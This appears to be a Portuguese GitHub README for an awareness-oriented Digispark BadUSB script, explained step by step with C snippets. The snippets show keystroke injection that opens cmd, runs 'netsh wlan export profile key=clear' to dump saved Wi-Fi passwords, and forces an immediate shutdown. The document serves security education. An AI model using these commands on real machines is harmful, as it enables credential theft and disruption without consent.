 # 🐚 Digispark BadUSB Awareness

Este repositório contém um **script educativo para Digispark**, criado para fins de conscientização e demonstração de riscos de BadUSB.

---

## ⚠️ AVISO IMPORTANTE

Este código **simula ataques BadUSB** e pode ser potencialmente perigoso se usado em sistemas sem autorização.

> ❗ **Nunca utilize este script em computadores sem permissão explícita.**
> Ele deve ser usado apenas para fins educativos e de conscientização.

---

## 🔍 O que o código faz — Explicado passo a passo

O script demonstra como um Digispark pode automatizar comandos no Windows de forma silenciosa, simulando um teclado:

### 1. Inicialização
```c
DigiKeyboard.sendKeyStroke(0);
DigiKeyboard.delay(1500);
```
- Inicializa o teclado virtual do Digispark e aguarda reconhecimento pelo sistema.

### 2. Abrir o Bloco de Notas e exibir mensagem de alerta
```c
DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
DigiKeyboard.print("notepad");
```
- Abre o Bloco de Notas e escreve uma **mensagem educativa**, alertando sobre riscos de BadUSB.

### 3. Abrir navegador
```c
DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
DigiKeyboard.print("www.google.com");
```
- Abre o navegador padrão e acessa o Google.

### 4. Abrir CMD e exportar perfis Wi-Fi
```c
DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
DigiKeyboard.print("cmd");
DigiKeyboard.print("netsh wlan export profile key=clear");
```
- Mostra como um atacante poderia acessar **senhas de redes Wi-Fi** (para fins educativos).

### 5. Desligamento do computador
```c
DigiKeyboard.print("shutdown -s -t 0");
```
- Executa **desligamento imediato**, demonstrando controle remoto total via USB.

---

## ✅ Exemplos de uso educativo

- Treinamentos internos de segurança da informação.
- Demonstração de riscos de BadUSB para equipes.
- Estudos de conscientização e prevenção de ataques.

---

## 🛡️ Proteção recomendada

- Nunca conecte dispositivos USB desconhecidos.
- Monitore e restrinja o uso de dispositivos programáveis na empresa.
- Eduque colaboradores sobre engenharia social e ataques USB.

---

## 🧑‍💻 Autor

- [h4ckthreat](https://github.com/h4ckthreat)
  
> Projeto educativo e de conscientização.

---

## 📄 Licença

Distribuído sob a [GNU GPL v3](https://www.gnu.org/licenses/old-licenses/gpl-3.0.html).

